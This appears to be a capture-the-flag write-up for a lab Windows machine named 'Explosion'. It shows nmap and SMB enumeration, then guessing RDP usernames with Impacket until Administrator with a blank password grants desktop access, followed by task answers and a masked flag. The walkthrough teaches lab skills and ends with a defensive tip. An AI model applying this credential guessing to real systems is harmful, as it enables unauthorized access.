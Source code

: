 # Explosion

---

## Setup

Connected to the VPN, spawned in the target machine, as a first step to make sure the target machine is alive I use a quit `ping` command in the terminal to make sure all is set and store the IP in an environment variable:

```shell
└─$ export IP=10.129.1.13
└─$ echo $IP
10.129.1.13

└─$ ping $IP
PING 10.129.1.13 (10.129.1.13) 56(84) bytes of data.
64 bytes from 10.129.1.13: icmp_seq=1 ttl=127 time=68.4 ms
64 bytes from 10.129.1.13: icmp_seq=2 ttl=127 time=68.6 ms
64 bytes from 10.129.1.13: icmp_seq=3 ttl=127 time=68.8 ms
64 bytes from 10.129.1.13: icmp_seq=4 ttl=127 time=68.6 ms
````

All is set!

---

## Enumeration

First, I ran a scan on the target machine to identify open ports and running services that might be vulnerable using [nmap](https://nmap.org) with the following flags:
`-sV`: Determine running services/versions on open ports
`-sC`: Run default scripts
`-v`: Verbose output for more information about the scan
`-oN`: Write the output of the scan into a file

```shell
└─$ nmap -sV -sC -v -oN scan.nmap $IP

...

Nmap scan report for 10.129.1.13
Host is up (0.22s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

Here we see the target machine is running a Microsoft Windows OS with RDP server on prt 3389, also later in the scan it shows the computer name is :`Explosion` and the DNS domain name is also `Explosion`, so I edited my `/etc/hosts` file and added this entry `10.129.1.13	explosion.htb`.

The target machine also seemingly runs Samba services which might be worth looking at early on for simple intel that could lead me somewhere

---

## Samba

I started with enumerating Samba shares anonymously with a blank password, see if anything interesting there but all I found was some default shares that are secured with administrator access, so I moved on to explore the RDP server.

```shell
└─$ smbclient -L $IP     
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
```

---

## RDP

I started by trying to connect to the RDP server with the username I already know previously from the nmap scan `Explosion`, but a password was necessary so I couldn't get connection.

```shell
└─$ xfreerdp /v:$IP /u:Explosion    
[22:27:40:190] [20135:20136] [WARN][com.freerdp.crypto] - Certificate verification failure 'self signed certificate (18)' at stack position 0
[22:27:40:190] [20135:20136] [WARN][com.freerdp.crypto] - CN = Explosion
Password: 
[22:27:42:866] [20135:20136] [ERROR][com.freerdp.core] - transport_ssl_cb:freerdp_set_last_error_ex ERRCONNECT_PASSWORD_CERTAINLY_EXPIRED [0x0002000F]
[22:27:42:866] [20135:20136] [ERROR][com.freerdp.core.transport] - BIO_read returned an error: error:14094438:SSL routines:ssl3_read_bytes:tlsv1 alert internal error
```

I then started manually brute forcing common usernames to see if any of them is misconfigured and maybe I can login with a blank password, I used `Impacket: rdp_check.py` script and started testing usernames: `root`, `admin`, `Explosion`, `Administrator` and at last, the username `Administrator` with a blank password clicked!

```shell
└─$ python /opt/impacket/build/scripts-3.10/rdp_check.py Explosion/Administrator:@$IP
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

Password:
[*] Access Granted
```

To connect to the RDP server I used `xfreerdp`:

```shell
└─$ xfreerdp /v:$IP /u:Administrator
````

and I'm in! I got an instance of the target machine running in a GUI window with `flag.txt` file on the Desktop:

![RDP Connection](https://imgur.com/gX10TLo.png)

---

## Tasks & Answers

**Task 1**: What does the 3-letter acronym RDP stand for?
> Remote Desktop Protocol

**Task 2**: What is a 3-letter acronym that refers to interaction with the host through a command line interface?
> CLI

**Task 3**: What about graphical user interface interactions?
> GUI

**Task 4**: What is the name of an old remote access tool that came without encryption by default and listens on TCP port 23?
> Telnet

**Task 5**: What is the name of the service running on port 3389 TCP?
> ms-wbt-server

**Task 6**: What is the switch used to specify the target host's IP address when using xfreerdp?
> /v:

**Task 7**: What username successfully returns a desktop projection to us with a blank password?
> Administrator

**FLAG**: 
> *******************************0

---

## Blue Team Suggestions

- Administrator accounts must have a secure password! at least a password.
